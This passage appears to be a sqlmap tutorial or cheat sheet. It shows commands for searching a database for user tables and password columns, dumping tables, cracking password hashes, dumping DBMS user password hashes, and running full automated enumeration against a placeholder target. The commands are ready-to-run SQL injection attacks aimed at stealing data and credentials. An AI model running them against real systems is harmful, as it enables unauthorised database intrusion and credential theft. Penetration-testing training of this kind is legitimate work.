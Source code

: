 Use `--search` to locate tables or columns by keyword:

**Search Tables:**

```bash
sqlmap -u "http://target.com/?id=1" --search -T user
```

**Search Columns:**

```bash
sqlmap -u "http://target.com/?id=1" --search -C pass
```
### Password Hash Retrieval and Cracking

Once passwords are identified in a table:

```bash
sqlmap -u "http://target.com/?id=1" --dump -T users -D master
```

SQLMap will:

- Detect hash format automatically    
- Prompt for dictionary-based cracking

**Default dictionary:** `/usr/local/share/sqlmap/data/txt/wordlist.tx_`

**Features:**

- Multi-core cracking    
- 30+ hash types supported
- Optionally use common suffixes
### Enumerating DBMS-Level User Passwords

- `--passwords` → Attempts to dump password hashes from system tables
- `--batch` → Auto-confirms all prompts (non-interactive)

**Example:**

```bash
sqlmap -u "http://target.com/?id=1" --passwords --batch
```

Cracked passwords (if successful) are shown with usernames. Output is stored at:

```
~/.local/share/sqlmap/output/<target>/
```
### Full Auto Enumeration

- `--all` → Performs full enumeration (schemas, tables, users, data)   
- Combine with `--batch` to avoid interactive prompts

**Example:**

```bash
sqlmap -u "http://target.com/?id=1" --all --batch
```
